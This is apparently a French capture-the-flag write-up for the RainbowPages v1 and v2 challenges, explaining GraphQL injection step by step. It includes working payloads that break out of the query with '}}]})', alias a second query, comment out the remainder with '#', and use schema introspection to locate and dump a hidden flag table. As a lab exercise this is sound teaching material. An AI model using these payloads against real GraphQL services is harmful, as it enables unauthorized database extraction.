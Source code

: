 # RainbowPages

## Script

J'ai utilisé `rainbow.py` pour executer des requêtes simplement.

## Liens utiles (pour la v1 et la v2)
-   https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/
-   https://graphql.org/learn/queries/
-   https://graphql.org/learn/schema/
-   https://graphql.org/learn/introspection/
-   https://spec.graphql.org/June2018/


## RainbowPages v1

Requête de base du site
```sh
{ allCooks (filter: { firstname: {like: "%'+searchInput+'%"}}) { nodes { firstname, lastname, speciality, price }}}
```

Payload qui liste toute la table `allCooks`
```sql
{ allCooks { nodes { firstname, lastname, speciality, price }}}

{"data":{"allCooks":{"nodes":[{"firstname":"Thibault","lastname":"Royer","speciality":"Raji Cuisine","price":12421},{"firstname":"Antoinette","lastname":"Martineau","speciality":"French traditional","price":3829},{"firstname":"Bernard","lastname":"Bruneau","speciality":"Chinese and Thai","price":14100},{"firstname":"Trycia","lastname":"Barton","speciality":"Fast food","price":920},{"firstname":"Jaleel","lastname":"Gerlach","speciality":"Tandoori dishes","price":24575},{"firstname":"Isaac","lastname":"Collier","speciality":"South Korean foods","price":8416},{"firstname":"Delbert","lastname":"Kshlerin","speciality":"Burger","price":31467},{"firstname":"Paula","lastname":"Hessel","speciality":"Pizza","price":74401},{"firstname":"Teagan","lastname":"Kertzmann","speciality":"Vegererian","price":12664},{"firstname":"Garfield","lastname":"Goldner","speciality":"Air and sun","price":944092},{"firstname":"Elisabeth","lastname":"Windler","speciality":"Vegetelian","price":310603},{"firstname":"Casey","lastname":"Schmitt","speciality":"Italian","price":96837},{"firstname":"Consuelo","lastname":"Kub","speciality":"Only Fruits","price":65607},{"firstname":"Luciano","lastname":"Smitham","speciality":"Brittany specialities","price":1963},{"firstname":"Piper","lastname":"Blick","speciality":"Breton gastronomy","price":77482},{"firstname":"Jace","lastname":"Jakubowski","speciality":"Sushi","price":20522}]}}}
```

Messages d'erreur qu'on peut trouver
```sql
{"errors":[{"message":"Syntax Error: Expected Name, found }","locations":[{"line":1,"column":14}]}]}

{"errors":[{"message":"Field \"allCooks\" of type \"CooksConnection\" must have a selection of subfields. Did you mean \"allCooks { ... }\"?","locations":[{"line":1,"column":3}]}]}
```

On copie ce message d'erreur sur google, on voit que c'est du graphQL.

On trouve ce github qui possède une requete pour dump la db https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection

J'ai mis le dump dans le fichier `rainbow.json`. On voit la table `allFlags`.

Payload qui récupère le flag
```sh
{ allFlags { nodes { id, flags}}}
```

## RainbowPages v2

La différence avec la v1 est que la requetes n'est pas envoyé côté client mais géré côté serveur.
De ce que j'ai compris, la requête est assez similaire à celle de la v1, mais plus compliqué.
On peut injecter un payload en mettant une `"`.

Le principe est de fermer les `{`, `(`, `[` pour injecter notre propre requete.

On va d'abord essayer de faire une 2eme requete comme celle de base, càd lister les prix des cuisiniers.

Par tatonnement, et en suivant les erreurs, on arrive à fermer la requete avec le bon ordre de `{`, `(`, `[`.

Si on remonte trop avec un payload du type `"}}]})} query { `. On a une erreur disant qu'on ne peut pas faire deux requêtes anonymes.
Ce n'est pas bon. On est remonté un cran trop haut.

On arrive donc à `}}]})`.

Voici un payload qui rècupère les prix des cuisiniers.
```sh
corentin"}}]}){nodes{firstname}} yo: allCooks { nodes { price} }     }#
```
Le `yo` est un alias arbitraire qui est necessaire lorsque l'on faire deux requetes (voir lien spec graphsql).
Le `#` mets en commentaire la fin de la requête.

La table `allFlags` n'existe pas, ils ont dû la renommer.
Direction l'introspection pour récuperer les infos sur db.

Ce payload liste les types de la db. On voit des `FlagNotTheSameTableName`, c'est la table qu'on cherche.
```sh
corentin"}}]}){nodes{firstname}} yo: __schema {types { name }}     }#
```

Avec ce payload on peut lister les champs (fields) de chaque type
```sh
corentin"}}]}){nodes{firstname}} yo: __type(name: "FlagNotTheSameTableName"){fields{name}}     }#
```

Il reste plus qu'à créer le payload final
```sh
corentin"}}]}){nodes{firstname}} yo: allFlagNotTheSameTableNames{nodes{flagNotTheSameFieldName}}     }#
```

Nb: j'ai toujours pas compris le jeu de mot avec `RainbowTables`
